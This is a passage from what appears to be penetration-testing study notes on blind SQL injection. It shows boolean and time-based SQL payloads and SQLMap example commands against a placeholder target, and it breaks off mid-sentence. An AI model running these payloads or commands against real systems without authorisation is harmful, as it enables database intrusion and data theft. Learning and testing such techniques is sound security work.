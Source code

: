 * is the first letter of the username 'a'?
* does the database contain three tables?
* and so on...

## Example: substring

Using the MySQL functions `user()` and `substring()`, user() returns the name of the use currently using the database. Substring returns a substring of a string...

```
select substring(user(), 1, 1) = 'r' # true
select substring(user(), 1, 1) = 'a' # false
```

## Example: time based

Cause the DB to wait or do some work to infer based on timing...

```
if (select user) = 'sa' waitfor delay '0:0:5'

IF EXISTS (SELECT * FROM users WHERE username = 'monz') BENCHMARK(1000000, MD5(1))
```

======================================================================

# TOOL : SQLMap

SQLMap is a tool used for detecting and exploiting sql injection.

> WARNING! Always test by hand first before using an automated tool because it may crash your targets system. You can correctly configure your tool if you know what your doing. Blindly running tools makes you a script kiddie not a professional.

## Syntax

```
sqlmap -u <URL> -p <injection_parameters> [options]
```

## Example union based in-band SQLi GET

```
sqlmap -u 'http://target.net?id=1111' -p id --technique=U
```

## Example union based in-band SQLi POST

```
sqlmap -u <URL> --data=<POST_STRING> -p paramter [options]
```

In burp
